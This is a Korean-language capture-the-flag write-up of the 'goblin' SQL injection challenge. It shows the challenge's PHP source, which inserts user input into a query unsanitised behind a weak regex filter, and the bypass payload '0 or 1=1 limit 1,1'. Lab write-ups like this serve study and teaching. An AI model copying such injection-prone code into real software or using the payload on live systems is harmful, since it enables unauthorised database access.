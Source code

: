 # GOBLIN

## code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

## solution
위 코드를 보게 되면 GET방식으로 no만 받고 있다. 그렇지만 id가 admin이여야 문제가 풀리게 되므로 url뒤에
```
?no=0 or 1=1 limit 1,1
```
위아 같은 코드를 입력하게 되면 no에는 0인 거짓값이 들어가지만 or 1=1로 참을 만든후 limit 1,1을 사용해서 db의 첫번째 줄에 있는 것을 꺼내왔다. 근데 마침 그 위치에 admin이 있어서 문제가 풀리게 되었다.

## limit
```mysql
limit a,b
```
는 a인덱스 부터 b개 만큼 출력을 하겠다는 것이다.

-------